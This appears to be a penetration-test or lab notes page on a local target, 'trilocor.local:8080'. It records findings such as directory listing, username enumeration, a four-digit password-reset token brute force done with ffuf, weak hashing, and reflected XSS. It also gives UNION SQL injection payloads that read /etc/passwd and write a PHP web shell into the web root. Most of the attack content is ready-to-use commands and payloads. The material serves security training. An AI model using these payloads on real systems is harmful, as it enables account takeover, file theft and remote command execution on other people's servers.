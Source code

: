 # www.trilocor.local:8080

---

Listing enabled for /assets

[http://www.trilocor.local:8080/assets/](http://www.trilocor.local:8080/assets/)

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image.png)

---

Admin disclosure

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%201.png)

```bash
./username-anarchy Roy Batty > roy.txt
```

```bash
cat ../../cloned/username-anarchy/roy.txt

roy
roybatty
roy.batty
roybatt
royb
r.batty
rbatty
broy
b.roy
battyr
batty
batty.r
batty.roy
rb
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%202.png)

---

CRITICAL: Token bruteforce

```bash
POST /reset.php HTTP/1.1
Host: www.trilocor.local:8080
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.trilocor.local:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:8080/reset.php?username=r.batty
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4tttucctsmank9u3iqrmq4gsdp
Connection: close

username=r.batty&token=1111&password=user12345&pass_conf=user12345
```

```bash
seq -w 0 9999 > tokens.txt
```

```bash
ffuf -u "http://www.trilocor.local:8080/reset.php" -X POST -H "Origin: http://www.trilocor.local:8080" -H "Cookie: PHPSESSID=4tttucctsmank9u3iqrmq4gsdp" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36" -H "Referer: http://www.trilocor.local:8080/reset.php?username=r.batty" -H "Cache-Control: max-age=0" -H "Upgrade-Insecure-Requests: 1" -H "Accept-Language: en-US,en;q=0.9" -H "Content-Type: application/x-www-form-urlencoded" -d "username=r.batty&token=FUZZ&password=user12345&pass_conf=user12345" -w tokens.txt -ac
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%203.png)

Trying r.batty:user12345

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%204.png)

---

CRITICAL: Weak hashing

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%205.png)

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%206.png)

---

CRITICAL: SQL injection on /resumes.php

```bash
POST /resumes.php HTTP/1.1
Host: www.trilocor.local:8080
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.trilocor.local:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:8080/resumes.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=renqceq82tsc4ivms5s217aflu
Connection: close

search=user
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%207.png)

MISCONFIG: User is DBA

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%208.png)

---

Reflected XSS

```bash
http://www.trilocor.local:8080/reset.php?username=r.batty%22%3e%3cscript%3ealert(1)%3c%2fscript%3e
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%209.png)

---

Resume search UNION SQLi

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%2010.png)

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%2011.png)

---

SQLi — file read

```bash
search=user' UNION SELECT 1,2,3,4,5,(SELECT LOAD_FILE('/etc/passwd')) --
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%2012.png)

Source code disclosure

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%2013.png)

File write

```bash
search=user' UNION SELECT 1,2,3,4,5,"<?php system($_GET['cmd']); ?>" into outfile "%2fvar%2fwww%2fpublic%2fshell%2ephp" -- -
```

![image.png](www%20trilocor%20local%208080%201d2021737a8980d8b51ef68d071a9dec/image%2014.png)

---

Long auth cookie validity time